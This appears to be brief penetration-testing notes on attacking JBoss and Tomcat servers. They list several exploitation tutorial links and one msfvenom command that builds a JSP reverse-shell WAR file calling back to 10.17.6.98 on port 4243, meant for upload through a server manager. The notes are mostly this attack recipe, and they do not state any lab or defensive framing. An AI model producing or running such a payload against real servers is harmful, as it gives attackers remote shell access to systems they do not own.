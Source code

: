 #### jboss

initial resource

https://medium.com/@madrobot/exploiting-jboss-like-a-boss-223a8b108206

###### preparing a war file

https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/
https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.17.6.98 LPORT=4243 -f war > shell.war